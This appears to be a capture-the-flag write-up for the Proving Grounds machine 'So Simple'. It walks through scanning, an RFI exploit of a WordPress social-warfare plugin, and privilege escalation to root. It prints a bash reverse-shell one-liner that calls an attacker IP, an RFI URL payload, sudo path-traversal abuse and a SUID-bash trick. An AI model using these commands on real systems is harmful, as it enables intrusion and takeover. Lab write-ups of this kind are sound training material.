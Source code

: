 ```yaml
---
layout: default
title: So Simple
parent: Proving Grounds Play
nav_order: 32
---
```


# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.172.78
```

# Enumeration

---

## 80 - HTTP

Gobuster discovers _/wordpress_.

Run _wpscan_ to reveal a vulnerable plugin _social-warefare_ version 3.5.0

```bash
wpscan --url http://192.168.172.78/wordpress/ --enumerate p --plugins-detection aggressive
```

![wpscan](../../../assets/images/ctfs/proving_grounds/sosimple/wpscan.png)

Reviewing exploits on Exploit-DB there is a POC that shows a vulnerable path.

![exploitdb](../../../assets/images/ctfs/proving_grounds/sosimple/exploitdb.png)

# Exploitation

---

## RFI

Run an initial test to display _phpinfo()_

```bash
vim evil.txt
<pre>
phpinfo();
</pre>
```

Start a Python web server and run RFI test in browser.

![rfi](../../../assets/images/ctfs/proving_grounds/sosimple/rfi.png)

Now run a reverse shell payload through the RFI vulnerable web page.

First create a new _evil.txt_ with the following bash reverse shell one-liner.

```bash
<pre>
system("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.217/9001 0>&1'");
</pre>
```

Run the following URL payload

```bash
192.168.222.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.45.217:8000/evil.txt
```

Observe the _evil.txt_ file download to the target machine and the netcat listener spawn a reverse shell.

![shell](../../../assets/images/ctfs/proving_grounds/sosimple/shell.png)

# Post-Exploitation

---

## SSH as Max

We have access to the _.ssh/id_rsa_ private key for Max

Copy to the attack box and pivot to the Max user.

![id_rsa](../../../assets/images/ctfs/proving_grounds/sosimple/id_rsa.png)

![ssh](../../../assets/images/ctfs/proving_grounds/sosimple/ssh.png)

## Check SUDO Permissions for Max

We can run _/usr/sbin/service_ as user _steven_

![sudo](../../../assets/images/ctfs/proving_grounds/sosimple/sudo.png)

## SU to Steven

```bash
sudo -u steven /usr/sbin/service ../../../../bin/bash
```

![steven](../../../assets/images/ctfs/proving_grounds/sosimple/steven.png)

## Check SUDO Permissions for Steven

![sudo_steven](../../../assets/images/ctfs/proving_grounds/sosimple/sudo_steven.png)

We can run _/opt/tools/server-health.sh_ as root.

Checking _/opt_ permissions we see Steven is the owner.

![opt](../../../assets/images/ctfs/proving_grounds/sosimple/opt.png)

Create _/opt/tools/server-health.sh_ to spawn a _/bin/bash_ shell from _/var/tmp/bash_

```bash
# create the /opt/tools directory
mkdir /opt/tools

# create server-health.sh script
vi server-health.sh

# create root shell bash script
#!/bin/bash

cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash

```

![script](../../../assets/images/ctfs/proving_grounds/sosimple/script.png)

Make _server-health.sh_ executable and execute with sudo command to generate the malicious _bash_ script

```bash
sudo -u root /opt/tools/server-health.sh
```

Execute the malicious _/var/tmp/bash_ binary with the _-p_ flag to persist root privileges

![root](../../../assets/images/ctfs/proving_grounds/sosimple/root.png)
